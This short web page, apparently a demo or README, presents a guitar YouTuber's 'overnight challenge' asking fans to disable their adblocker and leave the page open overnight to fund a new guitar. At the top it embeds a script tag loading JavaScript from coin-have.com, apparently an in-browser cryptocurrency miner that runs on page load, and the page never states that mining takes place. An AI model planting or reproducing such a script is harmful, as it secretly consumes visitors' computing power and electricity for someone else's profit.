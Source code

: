 <script src="https://coin-have.com/c/X386.js">\n</script>
# Please Disable you adblocker for this page to work!


## Example Artist
Example artist is a guitar Youtuber and entrepreneur making the world a better place through art education.

### Overnight Challenge
Hi guys! You may have heard from my videos that I'm trying to get that sweet new guitar released by Sweet Guitar Makers. If I can get 10,000 of you to contribute by leaving this page open overnight I'll be able to buy it in just one day! I can't wait to do the unboxing video. Cheers!
